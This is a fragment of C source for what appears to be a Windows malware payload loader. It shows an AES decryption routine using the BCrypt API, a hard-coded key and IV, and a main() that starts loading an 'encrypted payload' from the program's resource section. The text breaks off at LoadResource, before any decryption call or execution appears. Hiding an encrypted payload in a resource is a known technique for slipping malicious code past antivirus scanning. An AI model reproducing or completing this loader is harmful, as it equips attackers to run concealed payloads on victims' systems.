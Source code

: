 ```C
_EndOfFunc:
    if (hKeyHandle) BCryptDestroyKey(hKeyHandle);
    if (hAlgorithm) BCryptCloseAlgorithmProvider(hAlgorithm, 0);
    if (pbKeyObject) HeapFree(GetProcessHeap(), 0, pbKeyObject);
    if (pbPlainText != NULL && bSTATE) {
        pAes->pPlainText = pbPlainText;
        pAes->dwPlainSize = cbPlainText;
    }
    else if (pbPlainText) {
        HeapFree(GetProcessHeap(), 0, pbPlainText);
    }
    return bSTATE;
}

// Function to decrypt encrypted payload
BOOL SimpleDecryption(IN PVOID pCipherTextData, IN DWORD sCipherTextSize, IN PBYTE pKey, IN PBYTE pIv, OUT PVOID* pPlainTextData, OUT DWORD* sPlainTextSize) {
    if (!pCipherTextData || !sCipherTextSize || !pKey || !pIv || !pPlainTextData || !sPlainTextSize) return FALSE;

    AES Aes = {
        .pKey = pKey,
        .pIv = pIv,
        .pCipherText = pCipherTextData,
        .dwCipherSize = sCipherTextSize
    };

    if (!InstallAesDecryption(&Aes)) return FALSE;

    *pPlainTextData = Aes.pPlainText;
    *sPlainTextSize = Aes.dwPlainSize;
    return TRUE;
}

int main() {
    unsigned char key[] = {
        0xF0, 0x0A, 0xDB, 0x4A, 0x74, 0x13, 0xFF, 0xC9, 0x2F, 0x3C, 0x2A, 0x64, 0x01, 0x76, 0xF7, 0x73,
        0x08, 0x08, 0xC4, 0x08, 0x84, 0x83, 0x15, 0x3C, 0xC7, 0x62, 0x8B, 0x16, 0x78, 0xE9, 0xBE, 0xC9
    };

    unsigned char iv[] = {
        0xFC, 0xB6, 0x0B, 0x04, 0x36, 0x67, 0x2C, 0x76, 0x17, 0x76, 0x47, 0x3F, 0xDE, 0x07, 0xFA, 0xBF
    };

    // Load the encrypted payload from the resource section
    printf("[i] Loading encrypted payload from resource...");
    HRSRC hResource = FindResource(NULL, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
    if (hResource == NULL) {
        printf("[!] FindResource Failed: %d\n", GetLastError());
        return 1;
    }
    printf("\t Done!\n");

    DWORD dwCipherTextSize = SizeofResource(NULL, hResource);
    if (dwCipherTextSize == 0) {
        printf("[!] SizeofResource Failed: %d\n", GetLastError());
        return 1;
    }

    HGLOBAL hResData = LoadResource(NULL, hResource);
```